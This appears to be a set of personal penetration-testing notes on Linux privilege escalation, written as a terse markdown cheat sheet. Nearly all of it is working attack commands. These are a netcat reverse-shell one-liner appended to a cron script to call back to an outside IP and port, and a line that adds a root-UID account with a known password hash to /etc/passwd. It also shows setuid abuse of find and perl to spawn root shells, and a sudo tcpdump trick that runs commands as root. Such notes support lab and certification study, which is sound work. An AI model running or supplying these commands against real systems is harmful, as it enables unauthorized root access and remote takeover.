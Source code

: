 can inspect the ccron log file
```
grep "CRON" /var/log/syslog
```

reverse shell one-liner to replace cron script
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.235 4444 >/tmp/f" >> user_backups.sh
````

### Abusing password auth
can add password hash to /etc/passwd

```
openssl passwd w00t
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```

### Abusing Setuid

serach for process 
```
ps u -C passwd
```

or can use proc
```
grep Uid /proc/1932/status
```

if th `find` utility jas setuid
 If the -p option is supplied at startup, the effective user id is not reset. 
```
find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
```

can also abuse privileges via capabilities
```
/usr/sbin/getcap -r / 2>/dev/null
```

https://gtfobins.github.io/ to find exploitable binaries

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
### Abusing sudo
can list sudo privs with
```
sudo -l
```
 permissions in /etc/sudoers

attempt to abuse tcpdump with sudo privilege
```
COMMAND='id'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```
